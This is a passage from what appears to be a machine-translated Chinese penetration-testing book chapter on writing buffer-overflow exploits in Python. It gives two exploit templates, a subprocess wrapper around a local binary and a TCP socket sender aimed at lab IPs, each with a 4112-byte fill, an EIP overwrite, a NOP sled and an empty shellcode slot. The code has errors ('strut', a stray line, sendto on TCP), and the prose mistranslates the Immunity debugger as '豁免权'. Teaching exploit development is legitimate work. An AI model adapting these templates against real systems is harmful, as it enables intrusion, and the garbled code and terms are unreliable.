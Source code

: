 所以你可能会问自己，为什么我们要创造这个漏洞呢？如果我们刚刚创建此漏洞利用的软件是以管理员身份运行的，而不是以我们登录的用户身份运行的，那么利用此解决方案将更加有用。虽然这种情况不太可能发生，但该计划的性质是不可能的。因此，为利用此漏洞生成 Metasploit 模块不是很有用。考虑一下，这个练习是一个很好的机会来写你的第一个漏洞。

在编写漏洞攻击时，还有一个考虑因素，那就是根据您的漏洞攻击可能不可靠的程序而定。这意味着，由于代码的细微差别，您的漏洞利用可能会持续工作，也可能不会持续工作。因此，在实际组织中执行之前，您必须在实验室环境中进行实质性测试。

# 了解其他利用漏洞脚本

除了编写可以上传到程序中的恶意文件外，您可能还必须生成代码，通过接受参数、TCP 服务甚至 UDP 服务的独立程序与服务进行交互。考虑一下我们刚才开发的程序，如果它在本质上是不同的，我们仍然可以利用它，只是脚本与它交互的方式会有所不同。下面的三个示例显示了如果代码满足这些标准中的任何一个，它将是什么样子。当然，内存地址和大小必须根据您可能遇到的其他程序进行调整。

## 通过执行脚本利用独立二进制文件

我们甚至可以创建 Python 脚本来包装传递了参数的程序。通过这种方式，您可以使用包装器脚本构建漏洞利用，该脚本将注入代码，如下所示：

```
import subprocess, strut
program_name = 'C:\exploit_writing\vulnerable.exe'
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =() #Code to insert
remaining space
exploit = fill + eip + offset + shell
subprocess.call([program_name, exploit])
```

这种形式的攻击是你遇到的最罕见的，因为它通常不会授予你任何额外的权利。在创建此类漏洞利用时，通常要查看通过白名单程序与用户级权限授予您的其他访问权限。请记住，这种类型的攻击比恶意文件、TCP 或 UDP 服务更难编写。另一方面，您可能会编写的最常见的攻击是 TCP 服务攻击。

## 利用 TCP 服务开发系统

大多数情况下，您会遇到可以通过 TCP 利用的服务。这意味着，为了进行分析，您必须设置一个测试盒，该测试盒具有豁免权或其他调试器，并且服务正在运行。您必须对该服务附加豁免权，并像以前一样测试您的漏洞。

```
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.169"
rport = 23
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
shell =() #Code to insert
# NOPs to fill the remaining space
exploit = fill + eip + offset + shell
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.sendto(exploit, (rhost, rport))
```

如果[第 7 章](07.html#aid-1NA0K2 "Chapter 7. Cracking the Perimeter with Python")*用 Python*破解外围的 TFTP 服务容易受到潜在的缓冲区溢出攻击，我们会考虑为 UDP 服务创建漏洞攻击。
